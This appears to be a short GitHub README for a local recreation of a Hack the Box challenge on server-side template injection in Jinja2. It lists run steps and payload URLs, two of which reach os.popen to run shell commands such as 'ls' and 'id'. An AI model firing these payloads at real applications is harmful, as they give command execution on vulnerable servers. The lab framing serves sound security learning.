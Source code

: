 # Taking advanatage of SSTI
Recreated the Templated challenge in Hack the Box

## How to run 
1. ```git clone https://github.com/p-cap/HTB-Templated.git```
2. ```python3 demo.py```
3. Copy / paste the payload below

## Payload

http://localhost:5000/{{7*7}}

http://localhost:5000/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('ls').read()%7D%7D

http://localhost:5000/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('id').read()%7D%7D

### Refereence:
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
